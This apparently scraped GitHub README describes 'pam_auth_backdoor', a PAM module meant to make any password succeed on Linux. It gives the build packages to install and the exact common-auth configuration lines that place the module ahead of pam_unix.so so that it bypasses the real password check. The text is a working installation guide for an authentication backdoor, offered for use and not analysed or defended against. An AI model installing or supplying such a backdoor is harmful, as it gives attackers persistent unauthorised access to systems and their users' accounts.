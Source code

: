 # pam_auth_backdoor

PAM module to backdoor so that any password works.

## Installation

First install required packages (on Ubuntu and likes)

```bash
apt-get install build-essential libpam0g-dev libcurl4-openssl-dev
```

and then add in common-auth in /etc/pam.d, replace this line

```conf
auth    [success=1 default=ignore]      pam_myauth.so nullok
```

with the following lines in same order

```conf
auth	[success=2 default=ignore]	pam_myauth.so nullok_secure
auth	[success=1 default=ignore]	pam_unix.so nullok
```

